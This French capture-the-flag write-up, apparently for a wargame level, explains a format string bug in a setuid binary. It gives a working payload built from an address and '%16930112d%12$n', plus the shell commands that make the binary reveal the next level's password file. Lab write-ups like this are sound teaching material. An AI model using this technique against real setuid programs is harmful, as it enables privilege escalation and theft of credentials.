




# LEVEL 4

## 1. Introduction

Le binaire `level4` présente également une vulnérabilité de **format string**, mais avec une contrainte différente : la variable globale `m` doit être égale à une valeur beaucoup plus grande (16930116). Cette fois, nous devons utiliser une technique différente pour éviter de dépasser la limite de 512 bytes.

Cet exercice est exactement le même principe que le précédent, on a aussi un `printf` avec un string format à exploiter :



## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level4
-rwsr-s---+ 1 level5  level4  747441 Mar  6  2016 level4
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe la structure suivante :

```c
void p(char *param_1) {
    printf(param_1);  // ← Vulnérabilité format string
    return;
}

void n(void) {
    char local_20c[520];  // Buffer de 520 octets
    
    fgets(local_20c, 0x200, stdin);  // Lecture sécurisée
    p(local_20c);                     // Appel de printf
    
    if (m == 0x1025544) {  // Si m == 16930116
        system("/bin/cat /home/user/level5/.pass");  // ← Notre cible !
    }
    return;
}
```

**Points clés :**
- `printf()` sans spécificateur = vulnérabilité format string
- Variable globale `m` doit être égale à `0x1025544` (16930116)
- Buffer de 520 octets avec `fgets()` (lecture sécurisée)

### 2.3 Structure des fonctions

On voit que `n()` fait appel à `p()` :



Et que `p()` est un simple `printf` :


### 2.4 Localisation de la variable globale

Ici `m` est à l'adresse `0x08049810` donc `\x10\x98\x04\x08` en little-endian :



**Adresse de `m` : `0x08049810`**

### 2.5 Contrainte de taille

On voit aussi ici qu'il y a beaucoup plus de caractères à écrire, **16930116** exactement. Cette valeur est trop grande pour utiliser la même technique que le niveau précédent car on dépasserait les **512 bytes**.

## 3. Exploitation

### 3.1 Détermination de la position

Comme tout à l'heure on va utiliser `%n` pour écrire le nombre exact de caractères, et cette fois si l'argument de `printf` n'est pas le même :



Il se trouve à la **12ème** position. Cette fois si pour écrire au Xème caractère, on va utiliser **`%Nd`** de `printf`, car si on utilisait la même technique que le niveau d'avant on dépasserait les **512 bytes**.

### 3.2 Technique d'optimisation

Pour éviter de dépasser la limite de 512 bytes, on utilise la directive **`%Nd`** qui :
- Affiche un nombre avec un padding de N caractères
- Compte dans le nombre total de caractères imprimés
- Permet d'atteindre de grandes valeurs sans générer beaucoup de données

### 3.3 Construction du payload

Pour la construction du payload il suffit donc d'avoir **`%16930112d`** (la valeur qu'il faut à `m` - 4 octets pour l'adresse de `m`).

On obtient donc :

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'
```

### 3.4 Exécution de l'exploit

```bash
cat /tmp/payload - | ./level4
```

Et on obtient après un grand nombre de caractères écrit le flag !

### 3.5 Commandes complètes

```bash
# Se connecter au niveau
ssh level4@<IP> -p 4242

# Créer le payload
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/payload

# Exécuter l'exploit
cat /tmp/payload - | ./level4
```

## 4. Analyse technique approfondie

### 4.1 Pourquoi cette méthode fonctionne ?

1. **Format String** : `printf()` sans spécificateur interprète notre entrée comme des directives de format
2. **Directive `%Nd`** : Affiche un nombre avec padding, comptant dans le total de caractères
3. **Optimisation mémoire** : Évite de générer 16 millions de caractères physiques
4. **Écriture contrôlée** : `%12$n` écrit le nombre total à l'adresse spécifiée

### 4.2 Structure du payload

```
┌─────────────────┐
│ Adresse de m    │ ← 4 octets (\x10\x98\x04\x08)
├─────────────────┤
│ %16930112d      │ ← Directive de padding
├─────────────────┤
│ %12$n           │ ← Directive d'écriture
└─────────────────┘
```

**Total : 4 octets d'adresse + directives de format = payload compact**

### 4.3 Avantages de `%Nd` vs padding manuel

| Méthode | Taille payload | Mémoire utilisée |
|---------|----------------|------------------|
| Padding manuel | ~16MB | ~16MB |
| `%Nd` | ~50 bytes | ~50 bytes |

## 5. Structure du Payload

### 5.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│            FORMAT STRING OPTIMISÉ                      │
├─────────────────────────────────────────────────────────┤
│  Adresse m[4] + Directive padding + Directive écriture │
│  │                                                    │
│  └─→ \x10\x98\x04\x08 + "%16930112d" + "%12$n"     │
│      │                                                │
│      └─→ printf() interprète %Nd comme padding      │
│          │                                            │
│          └─→ %16930112d génère 16930112 caractères  │
│              │                                        │
│              └─→ %12$n écrit 16930116 dans m        │
│                  │                                    │
│                  └─→ m == 0x1025544 (16930116) ✓    │
│                      │                               │
│                      └─→ system("/bin/cat /home/...")│
│                          │                           │
│                          └─→ Flag affiché directement│
└─────────────────────────────────────────────────────────┘
```

### 5.2 Structure du payload optimisé

```
┌─────────────────┐
│ Adresse de m    │ ← 4 octets (\x10\x98\x04\x08)
├─────────────────┤
│ %16930112d      │ ← Directive de padding optimisé
├─────────────────┤
│ %12$n           │ ← Directive d'écriture
└─────────────────┘
```

### 5.3 Comparaison des approches

```
┌─────────────────┐    ┌─────────────────┐
│   Méthode       │    │   Taille        │
│   Manuelle      │    │   ~16MB         │
│   "A"*16930112  │    │   (limite 512B) │
└─────────────────┘    └─────────────────┘
         │                       │
         ▼                       ▼
┌─────────────────┐    ┌─────────────────┐
│   Méthode       │    │   Taille        │
│   Optimisée     │    │   ~50 bytes     │
│   %16930112d    │    │   (efficace)    │
└─────────────────┘    └─────────────────┘
```

### 5.4 Flux d'exécution

```
1. printf() reçoit notre entrée avec directive %Nd
2. %16930112d affiche un nombre avec 16930112 caractères de padding
3. Le total de caractères imprimés devient 16930116 (4+16930112)
4. %12$n écrit 16930116 à l'adresse m (0x08049810)
5. Variable m devient égale à 16930116 (0x1025544)
6. Condition m == 0x1025544 est vraie
7. system("/bin/cat /home/user/level5/.pass") s'exécute
8. Le flag est affiché directement
```

### 5.5 Visualisation de l'optimisation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Directive     │    │   Padding       │    │   Écriture      │
│   %16930112d    │───▶│   Virtuel       │───▶│   m = 16930116  │
│   (50 bytes)    │    │   (16MB compté) │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 5.6 Mécanisme de %Nd

```
┌─────────────────┐
│ Adresse de m    │ ← Pointeur vers la variable
├─────────────────┤
│ %16930112d      │ ← Affiche avec 16930112 caractères de padding
├─────────────────┤
│ %12$n           │ ← Écrit le total (4+16930112) à l'adresse
└─────────────────┘
```

## 6. Conclusion

Cette exploitation démontre l'importance de l'optimisation mémoire dans les exploits et l'utilisation intelligente des directives de format pour éviter les limitations de taille. 